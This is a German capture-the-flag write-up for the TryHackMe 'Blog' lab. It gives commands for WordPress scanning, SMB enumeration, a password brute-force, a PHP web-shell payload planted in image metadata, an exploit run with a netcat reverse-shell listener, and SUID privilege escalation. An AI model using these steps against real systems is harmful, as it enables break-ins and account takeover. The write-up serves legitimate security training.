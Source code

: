 
# TryHackMe: Blog

## 1. Vorbereitung
```bash
gem install wpscan
```
- Installiert **wpscan** auf der AttackBox.

```bash
wpscan --url https://bricks.thm/
```
- Scannt die Zielseite nach Schwachstellen.
  - WordPress-Version: **5.0** (veraltet & anfällig)
  - **XML-RPC aktiv**: `http://blog.thm/xmlrpc.php`
    - Ermöglicht Brute-Force-Angriffe, wenn Nutzer bekannt sind.

---

## 2. Port-Scan mit Nmap
```bash
nmap -sS 10.10.234.16
```
- Übersicht der offenen Ports:
  - `22/tcp`  → SSH (OpenSSH 7.6p1)
  - `80/tcp`  → HTTP (Apache 2.4.29)
  - `139/tcp` → Samba (netbios-ssn)
  - `445/tcp` → Samba (netbios-ssn)

---

## 3. WordPress Benutzer identifizieren
```bash
auxiliary/scanner/http/wordpress_scanner
```
- Erkennt zwei Benutzer:
  - `bjoel` (Billy Joel)
  - `kwheel` (Karen Wheeler)

---

## 4. SMB Enumeration & Dateien extrahieren
```bash
apt install smbmap
```
- Installiert **smbmap** zur Enumeration von SMB-Shares.

```bash
smbmap -H 10.10.234.16
```
- Verfügbare Freigaben:
  - `BillySMB` → **READ, WRITE**
  - `print$`, `IPC$` → kein Zugriff

```bash
smbget smb://10.10.234.16/BillySMB -R
```
- Lädt alle Dateien aus der Freigabe:
  - `Alice-White-Rabbit.jpg`
  - `tswift.mp4`
  - `check-this.png`

---

## 5. Steganographie mit steghide
```bash
steghide --info Alice-White-Rabbit.jpg
```
- Erkennt eingebettete Datei: `rabbit_hole.txt`

```bash
steghide extract -sf Alice-White-Rabbit.jpg
```
- Extrahiert `rabbit_hole.txt`
  - Inhalt ist **unbrauchbar** / Müll

---

## 6. WordPress Brute-Force
```bash
echo -e "bjoel\nkwheel" > users.txt
```
- Erstellt eine Liste der Nutzer.

```bash
wpscan --url http://blog.thm --usernames users.txt --passwords /usr/share/wordlists/rockyou.txt
```
- Brute-Force Angriff:
  - ✅ Zugang gefunden: `kwheel` / `cutiepie1`

---

## 7. Remote Code Execution (RCE)

**Exploit:**  
[exploit-db.com/exploits/46662](https://www.exploit-db.com/exploits/46662)

```bash
exiftool gd.jpg -CopyrightNotice="<?=\`\$_GET[0]\`?>"
```
- Fügt PHP-Code in ein Bild ein (für Webshell via GET-Parameter).

```bash
python3 49512.py http://blog.thm/ kwheel cutiepie1 twentytwenty
```
- Führt den Exploit aus.

```bash
nc -lvnp 4141
```
- Startet den Netcat Listener.

---

## 8. Privilege Escalation

```bash
find / -perm /4000 2> /dev/null
```
- Findet Dateien mit **SUID-Bit** (werden mit Root-Rechten ausgeführt).

```bash
strings <Datei>
```
- Zeigt lesbare Zeichenketten in einer Datei an.

```bash
admin=1
export admin
```
- Setzt die Umgebungsvariable `admin`.
- Danach kann das Programm **checker** erfolgreich ausgeführt werden.

---
